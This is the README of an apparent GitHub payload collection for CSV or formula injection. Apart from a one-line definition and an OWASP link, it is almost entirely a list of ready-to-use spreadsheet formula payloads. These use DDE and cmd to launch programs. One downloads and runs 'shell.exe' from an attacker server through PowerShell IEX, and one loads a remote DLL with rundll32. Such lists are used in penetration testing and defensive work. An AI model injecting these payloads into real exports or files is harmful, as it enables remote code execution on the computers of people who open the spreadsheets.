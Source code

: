 ## CSV Injection Payloads

<img src="https://cdn.rawgit.com/sindresorhus/awesome/d7305f38d29fed78fa85652e3a63e154dd8e8829/media/badge.svg"> <img src="https://img.shields.io/github/stars/payloadbox/csv-injection-payloads?style=social"> <img src="https://img.shields.io/github/forks/payloadbox/csv-injection-payloads?style=social"> <img src="https://img.shields.io/github/repo-size/payloadbox/csv-injection-payloads"> <img src="https://img.shields.io/github/license/payloadbox/csv-injection-payloads"> <img src="https://img.shields.io/github/issues/detail/author/payloadbox/csv-injection-payloads/1">

CSV Injection, also known as Formula Injection, occurs when websites embed untrusted input inside CSV files.

#### Payloads :

```
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+9)*cmd|' /C calc'!A0
=10+20+cmd|' /C calc'!A0
=cmd|' /C notepad'!'A1'
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
=cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1
```

#### References :

###### CSV Injection :

* 👉 https://owasp.org/www-community/attacks/CSV_Injection

##### Cloning an Existing Repository ( Clone with HTTPS )
```
root@ismailtasdelen:~# git clone https://github.com/payloadbox/csv-injection-payloads.git
```

##### Cloning an Existing Repository ( Clone with SSH )
```
root@ismailtasdelen:~# git clone git@github.com:payloadbox/csv-injection-payloads.git
```

#### Donate!

Support the authors:

#### LiberaPay:

<noscript><a href="https://liberapay.com/ismailtasdelen/donate"><img alt="Donate using Liberapay" src="https://liberapay.com/assets/widgets/donate.svg"></a></noscript>
